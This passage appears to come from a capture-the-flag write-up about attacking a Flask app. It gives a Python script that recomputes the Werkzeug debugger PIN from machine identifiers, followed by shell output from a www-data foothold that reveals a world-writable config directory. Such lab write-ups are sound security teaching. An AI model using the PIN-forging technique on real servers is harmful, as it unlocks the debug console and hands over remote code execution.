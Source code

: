 ```py
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'68f432c96a6d45f585a019af1ad31fc2'
]

h = hashlib.sha1() # Newer versions of Werkzeug use SHA1 instead of MD5
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print("Pin: " + rv)
```

However, it still doesn't work...

**In `/var/www`, I noticed something weird:**
```shell
(remote) www-data@flask:/var/www$ ls -lah
total 20K
drwxr-xr-x 1 root root 4.0K May 13 03:17 .
drwxr-xr-x 1 root root 4.0K May 13 03:17 ..
drwxr-xr-x 1 root root 4.0K May 13 03:17 app
drwxrwxrwx 1 root root 4.0K May 13 03:17 config
drwxr-xr-x 1 root root 4.0K May 13 03:17 dev
```

The `config` directory is world-writable/readable/executable.

```shell
(remote) www-data@flask:/var/www$ ls -lah config/
total 8.0K
drwxrwxrwx 1 root root 4.0K May 13 03:17 .
drwxr-xr-x 1 root root 4.0K May 13 03:17 ..
lrwxrwxrwx 1 root root   12 May 13 03:17 urandom -> /dev/urandom
```
